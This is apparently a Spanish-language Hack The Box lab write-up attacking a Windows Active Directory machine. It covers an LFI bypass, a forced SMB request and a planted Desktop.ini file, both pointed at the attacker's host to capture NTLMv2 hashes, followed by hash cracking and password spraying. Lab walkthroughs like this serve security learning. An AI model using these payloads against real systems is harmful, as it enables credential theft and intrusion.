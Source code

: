 #windows #ActiveDirectory #hard
### Ping

```python
ping -c 1 10.10.11.187
PING 10.10.11.187 (10.10.11.187) 56(84) bytes of data.
64 bytes from 10.10.11.187: icmp_seq=1 ttl=127 time=155 ms

--- 10.10.11.187 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.284/155.284/155.284/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 11:22 EDT
Nmap scan report for 10.10.11.187
Host is up (0.16s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-10 22:22:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-10T22:23:44
|_  start_date: N/A
|_clock-skew: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.63 seconds
```

### Enumeración del puerto 80 (HTTP)
por el momento no tenemos nada interesante en la pagina web así que seguiremos enumerando.
![[Pasted image 20240810113207.png]]

### Fuzzing con wfuzz
haciendo una enumeración de subdominios logramos encontrar uno llamado `school`
![[Pasted image 20240810114633.png]]

`school`
parece que en la pagina web de `school` tampoco obtenemos nada interesante.
![[Pasted image 20240810114823.png]]

### Enumeración del puerto 53 (DNS)
en esta enumeración nos aseguramos que no existe otro nombre de dominio y también obtenemos la dirección ip V6
![[Pasted image 20240810115616.png]]

### dirsearch
usando `dirsearh` encontramos un `index.php` el cual esta haciendo referencia a una variable `$DATA` esto nos da una pista así que vamos a intentar un `LFI`
![[Pasted image 20240810122957.png]]

`LFI`
al realizar un `LFI` nos reporta que esta actividad es sospechosa y que por ende a sido bloqueada. esto es una buena señal ya que si podemos identificar como se esta realizando este bloqueo podemos intentar bypasearlo
![[Pasted image 20240810123158.png]]

`LFI`
probamos con las rutas absolutas y funciono. parece que esta bloqueando el parámetro `../`
![[Pasted image 20240810123844.png]]

### Fuzzing con wfuzz 
con estos parámetros vamos a realizar un fuzzing con una lista de palabras especificas para Windows.

```python
❯ wfuzz -f ./fuzz-output.csv,csv -c -w file_inclusion_windows.txt --hw 89,95 "http://school.flight.htb/index.php?view=FUZZ"
```

![[Pasted image 20240810124631.png]]

### responder
vamos a iniciar el responder para posteriormente hacer una petición e intentar envenenar el trafico y poder capturar un `hash NTLMv2` 
![[Pasted image 20240810125124.png]]

`hash NTLMv2`
ahora solo vamos a forzar la autenticación contra los recursos compartidos de nuestra maquina atacante navegando a esta dirección `http://school.flight.htb/index.php?view=//10.10.14.8/share` de esta manera la maquina se autentica contra nosotros y podemos capturar el `hash NTLMv2`
![[Pasted image 20240810125817.png]]

### hashcat

![[Pasted image 20240810130537.png]]

`PASS`
después de esperar un rato vemos que hashcat ha podido identificar la contraseña del usuario `svc_apache`
![[Pasted image 20240810131709.png]]

### Validación de credenciales
podemos validar las credenciales que hemos conseguido y parecen ser validas para enumerar los recursos smb pero no podemos conectarnos por `evil-winrm` esto es normal ya que las cuentas de servicios como en este caso no cuentan con esta opción 
![[Pasted image 20240810132329.png]]

### crackmapexec
hacemos una enumeración para obtener usuarios potenciales del sistema.
![[Pasted image 20240810132635.png]]

### crackmapexec
hacemos una validación con la contraseña y la lista de usuarios que hemos conseguido y obtenemos una coincidencia para el usuario `S.Moon` 
![[Pasted image 20240810133411.png]]

### crackmapexec
con este usuario tenemos permisos de lectura y de escritura en el recurso `Shared` lo cual nos permite realizar un nuevo ataque e intentar capturar otro `hash NTLMv2` 
![[Pasted image 20240810134450.png]]

### Responder
en este caso ya que tenemos permisos de escritura en este recurso podemos vamos a crear un archivo que intente llamar el recurso en nuestra maquina para ver si algún otro usuario intenta acceder a este recurso y así poder obtener un segundo hash `NTMLv2` 

primero vamos a crear el archivo `Desktop.ini`
```python
[Shell]
Command=2
IconFile=\\10.10.14.8\share\hello.ico
[Taskbar]
Command=ToggleDesktop
```

ahora vamos a estar a la escucha con el responder y vamos a subir el archivo `Desktop.ini` a los recursos compartidos y esperamos que algún usuario intente conectarse
![[Pasted image 20240810140010.png]]

### crackmapexec
aplicamos los mismos pasos con la herramienta `hashcat` para descifrar el nuevo hash `NTLMv2` y de esta manera obtener las credenciales del usuario c.bum 
![[Pasted image 20240810140848.png]]


### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
